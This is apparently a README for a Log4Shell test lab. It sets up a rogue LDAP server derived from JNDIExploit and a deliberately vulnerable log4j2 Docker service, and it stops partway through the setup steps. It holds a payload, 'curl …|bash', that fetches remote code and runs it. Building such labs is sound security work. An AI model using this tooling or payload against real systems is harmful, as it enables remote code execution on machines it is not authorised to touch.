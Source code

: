 ## RogueLDAP

------------

This is a lightweight ```RogueLDAP``` server which is a modified version of the  [JNDIExploit-1](https://github.com/gysf666/JNDIExploit-1). Before running the Rogue LDAP Server, we should build and run the vulnerable ```loggin-log4j2``` application

### Build and run with Maven

In order to build the ```RogueLDAP``` server we will run the following commands 

```
cd RogueLDAP
mvn clean package
cd target
java -jar RogueLDAP-1.4-SNAPSHOT.jar
```

## logging-log4j2

------------

The ```logging-log4j2``` is a vulnerable dummy web service which only logs a user supplied string value. This application created for testing purposes in order to test the Log4Shell vulnerability using the ```RogueLDAP``` server previously described.  

### Build and run with Docker

From cli run the following command to build and run the ```logging-log4j2``` application 

```
cd logging-log4j2
mvn clean install
docker build -f Dockerfile -t logging-log4j2-vuln .
docker run -p 8080:8080 logging-log4j2-vuln 
```

## Setup the Environment

The setup should be as follows 

1. run the ```RogueLDAP``` server 
2. run the vulnerable ```logging-log4j2``` application 
3. create a folder called shells at a preffered location

```
mkdir shells 
cd shells 
```

There create an ```index.html``` file 

```
touch index.html 
```

Inside the ```index.html``` file put the following payload and change the IP address with the one that suit to the current environment

```
curl 192.168.1.6|bash 
``` 

4. 
